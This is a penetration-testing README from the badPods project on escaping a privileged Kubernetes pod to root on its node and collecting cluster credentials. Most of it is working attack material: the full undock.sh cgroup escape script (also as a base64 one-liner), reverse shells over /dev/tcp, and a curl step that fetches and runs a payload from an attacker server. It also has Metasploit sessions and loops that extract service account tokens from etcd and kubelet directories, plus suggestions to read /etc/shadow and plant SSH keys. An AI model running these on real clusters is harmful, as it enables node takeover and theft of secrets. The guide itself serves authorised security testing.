

# Bad Pod #3: Privileged


If you only have `privileged: true`, there are two paths you can take: 

* **Mount the host’s filesystem** – In privileged mode, `/dev` on the host is accessible in your pod.  You can mount the disk that contains the host’s filesystem into your pod using the mount command. In my experience, this gives you a limited view of the filesystem though. Some files, and therefore privesc paths, are not accessible from your privileged pod unless you escalate to a full shell on the node. That said, it is easy enough that you might as well mount the device and see what you can see.  
* **Exploit cgroup user mode helper programs** – Your best bet is to get interactive root access on the node, but you have to jump through a few hoops first. You can use Felix Wilhelm's exploit PoC `undock.sh` to execute one command a time, or you can use Brandon Edwards and Nick Freeman’s version  from their talk A Compendium of Container Escapes, which forces the host to connect back to the a listener on the pod for an easy upgrade to interactive root access on the host. Another option is to use the Metasploit module docker privileged container escape which uses the same exploit to upgrade a shell received from a container to a shell on the host. 

Once you get an interactive shell, the Kubernetes privilege escalation paths are the largely the same as the [Bad Pod #2: Everything-allowed](../priv-and-hostpid/README.md). 


## Table of Contents 
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Can you run your pod on a control-plane node](#can-you-run-your-pod-on-a-control-plane-node)
  - [Mount the host's filesystem](#mount-the-hosts-filesystem)
      - [Read secrets from etcd](#read-secrets-from-etcd)
    - [Look for kubeconfigs in the host filesystem](#look-for-kubeconfigs-in-the-host-filesystem)
    - [Grab all tokens from all pods on the system](#grab-all-tokens-from-all-pods-on-the-system)
  - [Remote code execution](#remote-code-execution)
    - [Option 1: Use Felix Wilhelm's undock.sh and hunt around with non-interactive access](#option-1-use-felix-wilhelms-undocksh-and-hunt-around-with-non-interactive-access)      
    - [Option 2: Use Brandon Edwards and Nick Freeman’s version which upgrades you to an interactive shell](#option-2-use-brandon-edwards-and-nick-freemans-version-which-upgrades-you-to-an-interactive-shell)
    - [Option 3: Use the metasploit module: docker_privileged_container_escape](#option-3-use-the-metasploit-module-docker_privileged_container_escape)
    - [Option 4: Use undock.sh to download your own payload and then execute it spawn the reverse shell](#option-4-use-undocksh-to-download-your-own-payload-and-then-execute-it-spawn-the-reverse-shell)
    - [Grab all tokens from all pods on the system](#grab-all-tokens-from-all-pods-on-the-system-1)
  - [Some other ideas](#some-other-ideas)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)
# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
kubectl exec -it priv-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/[RESOURCE_TYPE]/priv-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep priv-exec-[RESOURCE_TYPE]      
kubectl exec -it priv-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe priv-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener

```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/priv/[RESOURCE_TYPE]/priv-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/priv/pod/priv-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
kubectl delete pod priv-exec-pod
kubectl delete cronjob priv-exec-cronjob
```
# Post exploitation

## Can you run your pod on a control-plane node
*This is not a possible on cloud managed Kubernetes clusters like GKE and EKS - they hide the control-plane.*

The pod you created above was likely scheduled on a worker node. Before jumping into post exploitation on the worker node, it is worth seeing if you run your a pod on a control-plane node. If you can run your pod on a control-plane node using the nodeName selector in the pod spec, you might have easy access to the etcd database, which contains all of the configuration for the cluster, including all secrets. 

**Get nodes**
```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

**Pick your manifest, uncomment and update the nodeName field with the name of the control-plane node**
```
nodeName: k8s-control-plane
```
**Create your pod**
```
kubectl apply -f manifests/priv/job/priv-exec-job.yaml
```

## Mount the host's filesystem
Some of the privesc paths are not available if you mount the node's filesystem in this way. That said, it is easy enough to do that you might as well mount the device and see what you can see. 

**First, check out the storage devices attached to the host:** 
*This example is run on a GKE cluster*
```
kubectl exec -it priv-exec-pod -- fdisk -l
Disk /dev/sda: 100 GiB, 107374182400 bytes, 209715200 sectors
Disk model: PersistentDisk
...omitted for brevity...

Device       Start       End   Sectors  Size Type
/dev/sda1  8704000 209715166 201011167 95.9G Linux filesystem
/dev/sda2    20480     53247     32768   16M ChromeOS kernel
/dev/sda3  4509696   8703999   4194304    2G ChromeOS root fs
...omitted for brevity...
```

**Make a mount point and mount the host's storage device into the pod**
```
kubectl exec -it priv-exec-pod -- mkdir /host
kubectl exec -it priv-exec-pod -- bash -c "mount /dev/sda1 /host/"
```

You are now ready to exec into your pod and see what's in `/host/`.

#### Read secrets from etcd
If you can run your pod on a control-plane node using the `nodeName` selector in the pod spec, you might have easy access to the `etcd` database, which contains all of the configuration for the cluster, including all secrets. 

Below is a quick and dirty way to grab secrets from `etcd` if it is running on the control-plane node you are on. If you want a more elegant solution that spins up a pod with the `etcd` client utility `etcdctl` and uses the control-plane node's credentials to connect to etcd wherever it is running, check out [this example manifest](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) from @mauilion. 

**Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**
```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
Output:
```
data-dir=/var/lib/etcd
```
**View the data in etcd database:**
```
strings /var/lib/etcd/member/snap/db | less
```

**Extract the tokens from the database and show the service account name**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Same command, but some greps to only return the default token in the kube-system namespace**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
Output:
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```

### Look for kubeconfigs in the host filesystem 

By default, nodes don't have `kubectl` installed. If you are lucky though, an administrator tried to make their life (and yours) a little easier by installing `kubectl` and their highly privileged credentials on the node. We're not so lucky on this GKE node 

**Some ideas:**
```bash
find /host -name kubeconfig
find /host -name .kube
grep -R "current-context" /host/home/
grep -R "current-context" /host/root/
grep -R "current-context" /host/
```

### Grab all tokens from all pods on the system

In my experience, the tokens mounted in each pod are not accessible if you simply mount the filesystem as described in this section. However, if you get yourself an interactive shell as outlined in the next section, this privesc path is once again available to you. 


## Remote code execution

There are multiple options when it comes to gaining RCE with root's privileges on the host: 

* Option 1: Use Felix Wilhelm's `undock.sh` and hunt around with non-interactive access
* Option 2: Use Brandon Edwards and Nick Freeman’s version which upgrades you to an interactive shell
* Option 3: Use the metasploit module: `docker_privileged_container_escape`
* Option 4: Use `undock.sh` to download your own reverse shell script and then execute it spawn the reverse shell

### Option 1: Use Felix Wilhelm's undock.sh and hunt around with non-interactive access

#### Create undock script that will automate the container escape POC

Drop this into `undock.sh`
```bash
#!/bin/bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
Or, use this one-liner: 
```bash
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
```
#### Then use the script to run whatever commands you want on the host: 
```bash
sh undock.sh "cat /etc/shadow"
```

### Option 2: Use Brandon Edwards and Nick Freeman’s version which upgrades you to an interactive shell

#### Create escape script that will use the container escape POC to execute a connect back script on the host

Drop this into `escape.sh`:

```bash
#!/bin/bash
overlay=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
mkdir /tmp/escape
mount -t cgroup -o blkio cgroup /tmp/escape
mkdir -p /tmp/escape/w
echo 1 > /tmp/escape/w/notify_on_release
echo "$overlay/shell.sh" > /tmp/escape/release_agent
sleep 3 && echo 0 >/tmp/escape/w/cgroup.procs &
nc -l -p 9001
```
#### Find the IP address of your POD
This next script, `shell.sh` is executed on the host node and it will call back to the listener on your pod, so you'll need to use the pod's IP

#### Create the connect back script
Drop this into `/shell.sh` on the pod. If you change the name of your script, change it in escape.sh as well. 
```
#!/bin/bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/POD_IP/9001 0>&1"
```

#### Make both scripts executable
```bash
chmod +x shell.sh escape.sh
```

#### Execute escape.sh from the pod, which spin up a listener for you and then make the host to execute shell.sh

```bash
root@pod-priv:/# ./escape.sh
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@k8s-worker:/# cat var/lib/kubelet/pods/998357c8-45c7-4089-9651-cb8b185f7da8/volumes/kubernetes.io~secret/default-token-qqgjc/token
eyJhbGciOiJSUzI1NiIsImtpZCI6Ik[REDACTED]
```

### Option 3: Use the metasploit module: docker_privileged_container_escape

#### Fire up your multi handler, using the -z flag to avoid interacting with the session
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.127
LHOST => 10.0.0.127
msf6 exploit(multi/handler) > set port 4444
port => 4444
msf6 exploit(multi/handler) > run -jz
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.0.0.127:4444
```

#### From the pod, fire up a reverse shell
```bash
root@pod-priv:/# /bin/sh -i >& /dev/tcp/10.0.0.127/4444 0>&1
```

#### Catch shell from pod and spawn a shell on the host
```bash
[*] Started reverse TCP handler on 10.0.0.127:4444
msf6 exploit(multi/handler) > [*] Command shell session 1 opened (10.0.0.127:4444 -> 10.0.0.162:24316) at 2020-11-20 11:26:52 -0500

msf6 exploit(multi/handler) > use exploit/linux/local/docker_privileged_container_escape
[*] No payload configured, defaulting to linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_escape) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_escape) > set session 1
session => 1
msf6 exploit(linux/local/docker_privileged_container_escape) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.0.0.127:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
[*] Writing payload executable to '/tmp/wsKXoIW'
[*] Writing '/tmp/wsKXoIW' (286 bytes) ...
[*] Executing script to exploit privileged container
[*] Searching for payload on host
[*] Sending stage (3008420 bytes) to 10.0.0.162
[*] Meterpreter session 2 opened (10.0.0.127:4444 -> 10.0.0.162:47308) at 2020-11-20 11:28:18 -0500
[*] Sending stage (3008420 bytes) to 10.0.0.162
[*] Meterpreter session 3 opened (10.0.0.127:4444 -> 10.0.0.162:47310) at 2020-11-20 11:28:18 -0500
[*]
[*] Waiting 20s for payload

meterpreter > shell
Process 3068510 created.
Channel 1 created.
whoami
root
hostname
k8s-worker
cat var/lib/kubelet/pods/998357c8-45c7-4089-9651-cb8b185f7da8/volumes/kubernetes.io~secret/default-token-qqgjc/token
eyJhbGciOiJSUzI1NiIsImtpZCI6Ik[REDACTED]
```

### Option 4: Use undock.sh to download your own payload and then execute it spawn the reverse shell 
I'm not sure why you would need this forth option, but I use this before I found Brandon Edwards and Nick Freeman's talk. It works, just adds an unnecessary callback to a remote server. 

#### Create a payload and host it on your remote box
```bash
echo "0<&209-;exec 209<>/dev/tcp/10.0.0.127/4444;sh <&209 >&209 2>&209" > rshell.sh
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
#### Use undock.sh to download the script to the host and then execute it in the context of the host
```bash
root@pod-priv:/# sh undock.sh "curl -sL http://10.0.0.127:8000/rshell.sh -o /tmp/rshell.sh"
root@pod-priv:/# sh undock.sh "bash -c /tmp/rshell.sh"
```

#### Catch the shell, do some damage
```bash
ncat --ssl -vlp 4444
listening on [any] 4444 ...
connect to [10.0.0.127] from (UNKNOWN) [10.0.0.162] 48572
id
uid=0(root) gid=0(root) groups=0(root)
hostname
k8s-worker
```


### Grab all tokens from all pods on the system

You can access any secret mounted within any pod on the node you are on. In a production cluster, even on a worker node, there is usually at least one pod that has a mounted *token* that is bound to a *service account* that is bound to a *clusterrolebinding*, that gives you access to do things like create pods or view secrets in all namespaces. Look for tokens that have permissions to get secrets in kube-system. 

The examples below automate this process for you a bit:

**If you haven't already, drop the undock.sh script into on your pod.** 

The file will be at /undock.sh and is needed to make the next examples work from outside the pod using `kubectl exec`.: 
```
kubectl exec -it priv-exec-pod -- bash -c "echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > /undock.sh" 
```

**Run kubectl can-i --list against ALL tokens found on the node**

*Run this where you have kubectl installed and NOT from within the priv pod.*
*Make sure you already dropped undock.sh to the pod* 
```
tokens=`kubectl exec -it priv-exec-pod -- sh undock.sh """find /var/lib/kubelet/pods/ -name token -type l"""`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it priv-exec-pod -- sh undock.sh "cat $filename_clean"`; \
echo -n "What can I do? "; \
SERVER=`kubectl config view --minify --flatten -ojsonpath='{.clusters[].cluster.server}'`; \
export KUBECONFIG="dummy"; \
kubectl --server=$SERVER --insecure-skip-tls-verify --token=$tokena auth can-i --list; echo; echo; echo; \
unset KUBECONFIG; \
done
```
This is what just happened:
* From outside the pod, you execute `kubectl exec`, and use undock.sh to find all of the token locations on the host
* You then iterate through the list of filenames, and
  * Print the token location
  * Run `kubectl auth can-i list` using each token via the `--token` command line argument.  
* This gives you a list of the actions each token can perform cluster wide. 
  
The next command will do the same thing, but just in the kube-system namespace. 


**Run kubectl can-i --list -n kube-system against ALL tokens found on the node**

*Run this where you have kubectl installed and NOT from within the priv pod.*
*Make sure you already dropped undock.sh to the pod* 
```
tokens=`kubectl exec -it priv-exec-pod -- sh undock.sh """find /var/lib/kubelet/pods/ -name token -type l"""`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it priv-exec-pod -- sh undock.sh "cat $filename_clean"`; \
echo -n "What can I do? "; \
SERVER=`kubectl config view --minify --flatten -ojsonpath='{.clusters[].cluster.server}'`; \
export KUBECONFIG="dummy"; \
kubectl --server=$SERVER --insecure-skip-tls-verify --token=$tokena auth can-i --list -n kube-system; echo; echo; echo; \
unset KUBECONFIG; \
done
```

**Can any of the tokens:**
* Create a pod, deployment, etc. in the kube-system namespace?
* Create a role in the kube-system namespace?
* View secrets in the kube-system namespace?
* Create clusterrolebindings? 

You are looking for a way to access to all resources in all namespaces.


## Some other ideas
* Add your public key authorized_keys on the node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access control-plane nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster


# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
# References and further reading: 
* https://twitter.com/_fel1x/status/1151487051986087936
* https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 
* https://www.youtube.com/watch?v=BQlqita2D2s
* https://www.rapid7.com/db/modules/exploit/linux/local/docker_privileged_container_escape/
* [Secure Kubernetes - KubeCon NA 2019 CTF](https://securekubernetes.com/)
* Command and KubeCTL: Real-World Kubernetes Security for Pentesters - [Talk](https://www.youtube.com/watch?v=cRbHILH4f0A) / [Blog](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/)
* Compromising Kubernetes Cluster by Exploiting RBAC Permissions - [Talk](https://www.youtube.com/watch?v=1LMo0CftVC4) / [Slides](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/18100/2020_USA20_DSO-W01_01_Compromising%20Kubernetes%20Cluster%20by%20Exploiting%20RBAC%20Permissions.pdf)
* The Path Less Traveled: Abusing Kubernetes Defaults - [Talk](https://www.youtube.com/watch?v=HmoVSmTIOxM) / [Repository](https://github.com/mauilion/blackhat-2019)


